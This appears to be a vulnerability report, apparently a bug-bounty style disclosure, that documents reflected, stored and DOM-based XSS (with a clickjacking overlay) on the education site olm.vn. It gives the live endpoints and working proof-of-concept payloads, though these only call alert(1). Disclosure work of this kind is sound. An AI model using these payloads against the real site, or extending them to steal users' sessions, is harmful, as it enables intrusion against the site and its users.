 # Reflected XSS + DOM XSS(Clickjacking) + Stored XSS (BONUS $$$)




## Reflected XSS 

Endpoint : https://olm.vn/lop-3/[xss bypass]

Inject : ```"123=123><img%20src/onerror=alert(1)>123123```

![](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/olm/image/Reflected.png?raw=true)



## Stored XSS

Endpoint : https://olm.vn/?g=classes.checkuser 

Inject : ```<script>alert(1)</script>```

![](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/olm/image/Stored.png?raw=true)


## DOM Based XSS(Clickjacking)

Endpoint : https://olm.vn/bg?q=[Inject]

Inject : ```'id=x tabindex=1 onfocusin=alert(1) style=color:white;top:-1000px;z-index:10000;height:10000px;width:100000px; class=1"'><h1>vhae&grade=0```

Ở đây ta có `'id=x tabindex=1 onfocusin=alert(1)` nhằm tạo ra xss ở thẻ `<a>`

Đoạn sau là style có cấu trúc chỉnh sửa `css` của thẻ nhằm tạo ra Clickjacking

Khi nạn nhân ấn vào bất kỳ đâu ở web thì sẽ bị xss

![](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/olm/image/Clickjacking.png?raw=true)
